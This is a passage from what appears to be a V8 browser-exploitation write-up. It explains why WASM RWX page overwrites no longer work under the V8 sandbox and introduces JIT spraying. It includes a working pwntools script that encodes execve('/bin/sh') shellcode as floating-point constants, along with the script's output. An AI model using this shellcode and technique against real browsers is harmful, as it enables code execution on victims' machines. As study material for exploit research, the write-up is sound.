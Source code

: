 Using ARW capabilities, attackers could exploit this setup in several steps. First, they would scan memory to locate the WASM instance and extract a reference to the code object. From there, they could identify the pointer to the RWX region where the compiled WASM code resided. With this pointer leaked, attackers would then overwrite the RWX memory with native shellcode. Finally, by invoking the corresponding WASM function, they could execute their payload—achieving code execution within the JavaScript engine. You may refer this [Writeup](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) for more info.

Due to [V8 Sandbox](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit?tab=t.0#heading=h.xzptrog8pyxf), this method is no longer viable. `WebAssembly (WASM)` memory is no longer laid out adjacent to the JavaScript heap. V8 also now replaces raw external pointers with internal table indices—for example, references to `WASM RWX` pages or `ArrayBuffer` backing stores are abstracted through lookup tables. This design prevents direct memory access, meaning traditional exploitation techniques that rely on raw pointer manipulation for arbitrary read/write are no longer effective.

So Instead, we'll be using a technique known as [JIT Spray](https://en.wikipedia.org/wiki/JIT_spraying). JIT (Just-In-Time) Spray is an exploitation technique that leverages JavaScript engine optimizations (in this case- Turbofan) to create executable memory regions (RX JIT pages) containing attacker-controlled code. 

With arbitrary read and write primitives, an attacker can locate the JIT-compiled code object in memory—either by scanning the heap or leveraging known object layout patterns. Once identified, they extract the address of the `RX` (read-execute) memory region that holds the compiled JIT code. This region is then searched for a known sprayed pattern, such as `0x90909090` (representing `NOP` instructions in x86), which was deliberately embedded during the JIT compilation phase to serve as a predictable marker. Once the sprayed pattern is found, its address is written over the position of the `RWX` address.

Prior to this, the attacker prepares shellcode encoded as an array of IEEE-754 floating-point numbers, with each float representing `6 bytes` of shellcode followed by a `2-byte` jump shellcode to the next float (making total of `8 bytes`). So, as a result, when the JIT-compiled function is invoked, control flow is redirected to the attacker's crafted sequence in the JIT region, allowing arbitrary code execution. You can learn more about the technique in this [blog](https://www.matteomalvica.com/blog/2024/06/05/intro-v8-exploitation-maglev/#jit-spraying-shellcode) and this[CTF Writeup].(https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html). 

So, let's start with the shellcode first, then we'll work our way towards the exploit. To generate the floating number shellcode as described above, we can use a python script like -

```python
from pwn import *

context(arch='amd64')
jmp = b'\xeb\x0c'
shell = u64(b'/bin/sh\x00')

def make_double(code):
	assert len(code) <= 6
	print(hex(u64(code.ljust(6, b'\x90') + jmp))[2:])

make_double(asm("push %d; pop rax" % (shell >> 0x20)))
make_double(asm("push %d; pop rdx" % (shell % 0x100000000)))
make_double(asm("shl rax, 0x20; xor esi, esi"))
make_double(asm("add rax, rdx; xor edx, edx; push rax"))
code = asm("mov rdi, rsp; push 59; pop rax; syscall")
assert len(code) <= 8
print(hex(u64(code.ljust(8, b'\x90')))[2:])

"""
Output:
ceb580068732f68
ceb5a6e69622f68
cebf63120e0c148
ceb50d231d00148
50f583b6ae78948
```